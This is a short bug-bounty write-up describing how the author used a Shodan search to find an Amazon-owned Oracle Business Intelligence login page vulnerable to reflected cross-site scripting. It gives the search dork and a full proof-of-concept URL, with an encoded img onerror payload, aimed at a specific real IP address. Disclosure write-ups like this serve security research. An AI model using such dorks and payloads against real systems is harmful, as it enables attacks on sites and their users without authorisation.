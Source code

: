 ---
title: "How I found XSS vulnerability in Amazon in 5 minutes using shodan"
classes: wide
header:
  teaser: /assets/images/crackmes/shodan.jpeg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true
----

This is my first write-up. I was scrolling through twitter and I found this great tip:


![](/assets/images/crackmes/xss.png)

So I quickly went to shodan and write this dork:

    html:">Oracle Business Intelligence"

to find the websites that is vulnerable to this CVE with organizations names so the final dork was like this:

    html:">Oracle Business Intelligence" org:amazon

I found an IP which is owned by Amazon that is vulnerable to this CVE

the final POC is :

https://52.46.133.78/bi-security-login/login.jsp?msi=false&redirect=%22%3E%3Cimg/src/onerror%3dalert(document.domain)%3E


![](/assets/images/crackmes/xss2.png)


Thank you.

